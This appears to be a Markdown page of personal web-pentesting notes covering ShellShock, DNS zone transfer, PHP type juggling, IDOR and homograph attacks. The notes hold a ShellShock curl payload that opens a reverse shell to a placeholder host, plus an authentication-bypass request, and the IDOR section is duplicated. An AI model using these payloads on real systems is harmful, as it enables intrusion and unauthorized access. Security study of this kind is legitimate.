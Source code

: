 ```yaml
---
layout: post
title: 'Notes | Web Others'
permalink: /notes/web/others/
---
```


# ShellShock Attack
This vulnerability in Bash allows remote code execution without confirmation. A series of random characters, () { :; }; , confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We can manipulate the **User-agent** to execute it, for example:
{% highlight bash %}
> curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/myip/443 0>&1" http://example.com/
{% endhighlight %}

---

# Domain Zone Transfer (AXFR)
AXFR offers no authentication, so any client can ask a DNS server for a copy of the entire zone. This means that unless some kind of protection is introduced, an attacker can get a list of all hosts for a domain, which gives them a lot of potential attack vectors.

If we now one domian we can try:
{% highlight bash %}
> dig @ip-domian domain.com axfr
{% endhighlight %}
This will list subdomain.
###### If we only have the ip we can use **/etc/hosts** to create the domains.

---

# Deserialization Attacks
**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.
**Deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

---

# Type Juggling
With **Type Juggling** during the comparison of variables of different types, PHP will first convert them to a common, comparable type.

For example we can send data like this:
{% highlight bash %}
> curl -s -X POST --data 'usuario=admin&password=1' http://[ip] | html2text
{% endhighlight %}
We will probably get an error, but if we modify the content:
{% highlight bash %}
> curl -s -X POST --data 'usuario=admin&password[]=1' http://[ip] | html2text
{% endhighlight %}
We can log in.

---

# Insecure direct object references (IDOR)
IDOR are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.

If we have a webpage similar to:
{% highlight plain %}
'https://insecure-website.com/customer_account?customer_number=132355'
{% endhighlight %}
We can modify the value to see the value of others users. Even perform horizontal and vertical privilege escalation to get additional privileges.

Other example if we get a file in the url:
{% highlight plain %}
'https://insecure-website.com/static/12144.txt'
{% endhighlight %}
We can modify the value to get another user's file.

# Insecure direct object references (IDOR)
IDOR are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.

If we have a webpage similar to:
{% highlight plain %}
'https://insecure-website.com/customer_account?customer_number=132355'
{% endhighlight %}
We can modify the value to see the value of others users. Even perform horizontal and vertical privilege escalation to get additional privileges.

Other example if we get a file in the url:
{% highlight plain %}
'https://insecure-website.com/static/12144.txt'
{% endhighlight %}
We can modify the value to get another user's file.

---

# IDN homographic attack
The internationalized domain name homograph attack is a way a malicious party may deceive computer users about what remote system they are communicating with, by exploiting the fact that many different characters look alike. For example, a regular user of example.com may be lured to click a link where the Latin character "a" is replaced with the Cyrillic character "а". This kind of spoofing attack is also known as script spoofing.
